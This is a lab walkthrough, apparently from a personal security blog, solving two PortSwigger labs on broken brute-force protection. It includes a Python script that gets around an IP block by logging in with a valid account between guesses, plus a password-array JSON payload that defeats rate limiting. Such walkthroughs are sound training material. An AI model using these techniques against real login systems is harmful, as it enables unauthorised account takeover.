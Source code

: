 # Authentication Vulnerabilities

<h3> Broken brute-force protection, IP block</h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/503c5d03-8fab-4ecd-93be-77c2e1a16e64)

Going over to the web app shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/db03e8c5-4227-485b-9051-4a96584bede6)

But since we're interested in the login page I went there
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/411fdbb1-67db-49d8-8beb-a640a8884278)

First thing we should note is that we're already given a cred to login as `wiener:peter` but the goal is to brute force the user `carlos` password with the password wordlist given

Let us login as the user *wiener* first
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8d66fd76-235f-4da4-9395-6001a09673e3)

It works cool. When we try loggin in as user carlos with a random cred it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e6ee17ee-7936-41e2-94bb-f198501862c9)

And after the third attempt of trying random password it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d5dbd879-c1aa-4d34-80db-1390c6e3ab69)

Hmmmm we've been blocked for one minute

After waiting for a minute and then trying to login as user *wiener* works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e6238793-bfe4-437a-8f87-e597bc785b2f)

I logged out then tried loggin in as user carlos with random password but for just two request
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a0b860a9-8975-4a48-8c79-807a8a91642c)

Then the third request I logged in as user wiener and it works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/249e4a48-e522-4124-803f-852803064425)

So now the logic behind this login function is that:
- After two failed login we get incorrect password as expected
- Then the third login when tried with a valid cred works which prevents the the web app from blocking our IP

Cool with this we know that we can brute force the user's password for every two requests made and the third request we will login as weiner

I made a script for that though *Portswigger* recommended a burp extension
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2392dd57-3372-4b21-8781-612ee1ef8f79)

Here's my script 

```python
#!/usr/bin/python3
import requests
import time
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

with open('passwords.txt', 'r') as f:
    passwords = [passwd.strip() for passwd in f.readlines()]

url = 'https://0a42008903a8b19183b582120062005e.web-security-academy.net/login'

data = {
    'username': 'carlos',
    'password': ''
}

valid_cred = {
    'username': 'wiener',
    'password': 'peter'
}

# Make a valid request to prevent IP Block
req = requests.post(url, data=valid_cred, verify=False, allow_redirects=True)

count = 0

for password in passwords:
    data['password'] = password
    req = requests.post(url, data=data, verify=False)

    if 'Incorrect password' not in req.text:
        print(f'Password found: {password}')
        break

    count += 1

    # On every 3rd request bypass IP blocker by logging in with valid cred
    if count == 2:
        print(f'Trying: {password}')
        req = requests.post(url, data=valid_cred, verify=False)

        count = 0
```

Running it gives the password
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a37c4341-dd38-491a-a0a1-bf0c83de5afd)

And automatically it shows solved
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/38123a6b-bac9-492a-b674-a3f050160a32)


<h3> Broken brute-force protection, multiple credentials per request </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/df0abf24-e21d-4afa-a935-9786792d7b51)

Moving over to the web app shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4a5577ac-d4aa-481e-a721-b9c9fb61163e)

Since the task is to login as user carlos let us go to the login page
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/66e9bcee-fae7-4bb5-8460-16481de430c1)

After trying the username *carlos* with a random password and intercepting it in burp suite I get this request
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/deebfa7f-f55d-4dd3-a7bd-46a16ccb6356)

Notice the way the data is passed to the web server in form of json

```
{"username":"carlos","password":"deyplay"}
```

If we try to brute force the password we get rate limited but here's something way more cooler

We know that this is json right?

Therefore we can pass the password values as an array 

So basically the web server will loop through the password variable till it gets the right password

I used python to make it a better json format

Here's my script 

```python
import json

password_list = [
    "123456", "password", "12345678", "qwerty", "123456789", "12345", "1234", "111111",
    "1234567", "dragon", "123123", "baseball", "abc123", "football", "monkey", "letmein",
    "shadow", "master", "666666", "qwertyuiop", "123321", "mustang", "1234567890", "michael",
    "654321", "superman", "1qaz2wsx", "7777777", "121212", "000000", "qazwsx", "123qwe",
    "killer", "trustno1", "jordan", "jennifer", "zxcvbnm", "asdfgh", "hunter", "buster",
    "soccer", "harley", "batman", "andrew", "tigger", "sunshine", "iloveyou", "2000",
    "charlie", "robert", "thomas", "hockey", "ranger", "daniel", "starwars", "klaster",
    "112233", "george", "computer", "michelle", "jessica", "pepper", "1111", "zxcvbn",
    "555555", "11111111", "131313", "freedom", "777777", "pass", "maggie", "159753",
    "aaaaaa", "ginger", "princess", "joshua", "cheese", "amanda", "summer", "love",
    "ashley", "nicole", "chelsea", "biteme", "matthew", "access", "yankees", "987654321",
    "dallas", "austin", "thunder", "taylor", "matrix", "mobilemail", "mom", "monitor",
    "monitoring", "montana", "moon", "moscow"
]

json_array = json.dumps(password_list)

print(json_array)
```

Running it gives us a better json format
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/63299bd1-61aa-486a-b3c2-2ae3c45ada99)

Now I replaced it as the password value in the request 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3443cc8f-3ab2-47db-870c-7ad22f3c79a3)

After forwarding the request I got logged in
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2c1a25b8-2c6c-4624-8de5-2cc007bf63b9)


